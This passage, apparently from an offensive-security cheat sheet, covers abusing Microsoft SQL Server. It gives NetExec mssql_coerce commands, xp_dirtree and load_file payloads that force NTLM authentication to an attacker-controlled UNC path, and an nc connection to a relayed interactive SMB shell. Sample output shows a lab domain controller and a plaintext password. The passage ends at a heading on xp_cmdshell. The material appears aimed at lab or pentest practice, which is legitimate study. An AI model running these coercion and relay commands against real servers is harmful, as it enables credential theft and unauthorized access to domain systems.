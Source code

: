 #### 3. Coercing Authentication

{{< tab set4 tab1 >}}nxc{{< /tab >}}
{{< tab set4 tab2 >}}SQL{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
nxc mssql <TARGET> -u '<USER>' -p '<PASSWORD>' --local-auth -M mssql_coerce -o L=<LOCAL_IP>
```

```console {class="sample-code"}
$ nxc mssql DC.REDELEGATE.VL -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth -M mssql_coerce -o L=10.10.14.56
MSSQL       10.129.254.242  1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.254.242  1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii 
MSSQL_CO... 10.129.254.242  1433   DC               [*] Commands executed successfully, check the listener for results
```

{{< /tabcontent >}}
{{< tabcontent set4 tab2 >}}

```console
# Method 1
use master; exec xp_dirtree '\\<LOCAL_IP>\any\thing';
```

```console
# Method 2
load_file('\\<LOCAL_IP>\any\thing');
```

{{< /tabcontent >}}

#### 4. Interactive SMB Shell

```console
nc 127.0.0.0 <LOCAL_PORT>
```

```console {class="sample-code"}
$ nc 127.0.0.1 11000                  
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
# 
```

---

### Abuse #3: Run xp_cmdshell

#### 1. Check Any Policy Blocking xp_cmdshell \[Optional\]
